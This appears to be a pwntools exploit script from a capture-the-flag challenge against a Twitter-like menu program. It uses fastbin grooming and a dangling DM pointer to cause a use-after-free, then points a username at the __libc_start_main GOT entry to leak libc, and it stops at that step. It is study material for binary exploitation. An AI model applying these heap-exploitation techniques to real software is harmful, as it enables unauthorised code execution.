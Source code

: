 ```python

def signup(name):
    r.sendlineafter("> ", "1")
    r.sendlineafter("> ", name)

def signin(name):
    r.sendlineafter("> ", "2")
    r.sendlineafter("> ", name)

def tweet(msg):
    r.sendlineafter(">> ", "4")
    r.sendlineafter(">> ", msg)

def dm(user, msg):
    r.sendlineafter(">> ", "5")
    r.sendlineafter(">> ", user)
    r.sendlineafter(">> ", msg)

def signout():
    r.sendlineafter(">> ", "0")

def change_name(name):
    r.sendlineafter(">> ", "7")
    r.sendlineafter(">> ", name)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    signup("A"*4) # fastbin[0] * 2
    signup("B"*4) # fastbin[0] * 2
    signup("C"*30) # fastbin[0] * 1 + fastbin[1] * 1 

    signin("A"*4)
    tweet("aaaa") 
    signout()

    signin("B"*4)
    tweet("bbbb")
    dm("A"*4, "BA") # for creating dangling pointer
    dm("C"*30, "BC")
    signout()

    signin("C"*30)
    tweet("cccc")
    signout()

    signin("B"*4)
    change_name("\t") # invalid, will remove user (user AAAA's DM become dangling pointer)
    signin("C"*30)
    change_name("\t") 

    signup("d"*7)
    signin("d"*7)
    for i in xrange(6,2,-1): # null out the address
        change_name("d"*i)

    malusr = p64(elf.got['__libc_start_main'])
    change_name(malusr) # AAAA's DM's sender->name will pointer to __libc_start_main@got.plt
    signout()

    # leak libc
```